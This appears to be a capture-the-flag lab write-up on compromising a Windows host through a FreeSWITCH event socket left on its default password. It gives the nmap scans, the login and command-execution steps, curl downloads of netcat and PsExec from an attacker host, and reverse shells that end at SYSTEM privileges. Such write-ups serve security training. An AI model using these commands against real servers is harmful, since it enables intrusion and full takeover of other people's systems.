









## Nmap Sc4n

First, perform a full port scan to identify open services:
```bash
└─$ sudo nmap -p- -Pn -sS 10.114.181.6             
```

Result:
```bash         
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
8021/tcp open  ftp-proxy
```
Only two ports are open, which significantly narrows the attack surface.

---
Next, enumerate services and versions:
```bash
└─$ sudo nmap -p3389,8021 -Pn -sC -sV 10.114.181.6 
```
```bash
PORT     STATE SERVICE          VERSION
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
|_ssl-date: 2026-04-09T15:22:01+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2026-04-08T15:14:23
|_Not valid after:  2026-10-08T15:14:23
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2026-04-09T15:21:57+00:00
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## FreeSWITCH
The most promising attack vector is FreeSWITCH running on port 8021.

-> **What is FreeSWITCH**
FreeSWITCH is a telephony platform used for handling VoIP communications.

In this case, the exposed component is:

```bash
mod_event_socket 
```
This module provides a management interface that allows remote interaction with the service over a TCP socket.
This interface is not intended to be exposed to untrusted networks. 

If it is accessible and protected only by weak or default credentials, it can lead to full remote command execution.

##### Exploitation

The service is vulnerable if:
- it is exposed to the network
- default credentials are used

The default password is **ClueCon** [(link)](https://github.com/signalwire/freeswitch/blob/v1.10.1/libs/esl/fs_cli.conf#L6):

Exploit: 
[exploit-db](https://www.exploit-db.com/exploits/47799)

1) Connect to the service:
```bash
nc 10.114.181.6 8021
```
2) Authenticate
```bash
auth ClueCon
```
FreeSWITCH uses a simple authentication mechanism. 

3) Command execution

After authentication, we can execute system commands:
```bash
api system <command>
```


The output shows that the process has high privileges, including SeImpersonatePrivilege:


---
### Reverse Shell

Start a listener:
```bash
rlwrap nc -nvlp 12345
```

Transfer netcat to the target:
```bash
api system curl http://192.168.164.35:9090/nc.exe -o nc.exe
```

Then execute:
```bash
api system .\nc.exe 192.168.164.35 12345 -e powershell.exe
```

We obtain a shell as user Nekrotic:


The Desktop contains two files:



But access to root.txt is denied.


Checking permissions:
```powershell
Get-Acl -Path "C:\Users\Nekrotic\Desktop\root.txt"
```


Only NT AUTHORITY\SYSTEM has full control.

## PricEsc
We need to execute commands as **NT AUTHORITY\SYSTEM** to read root.txt.

Since the FreeSWITCH service runs with high privileges, we can leverage it to spawn a SYSTEM-level process.

Transfer PsExec to the target:
```powershell
curl http://192.168.164.35:9090/PsExec64.exe -o psexec.exe
```

Execute a command as SYSTEM:
```powershell
.\psexec.exe -i -s "C:\Program Files\FreeSWITCH\nc.exe" 192.168.164.35 1234 -e powershell.exe
```


-s ->  run as SYSTEM

-i ->  interactive session

PsExec leverages Windows service mechanism to spawn SYSTEM processes.

Since we already have sufficient rights through FreeSWITCH, we can leverage this mechanism to spawn a SYSTEM shell.

```bash
nc -nvlp 1234
```


This demonstrates how exposing FreeSWITCH with default credentials can lead to full system compromise.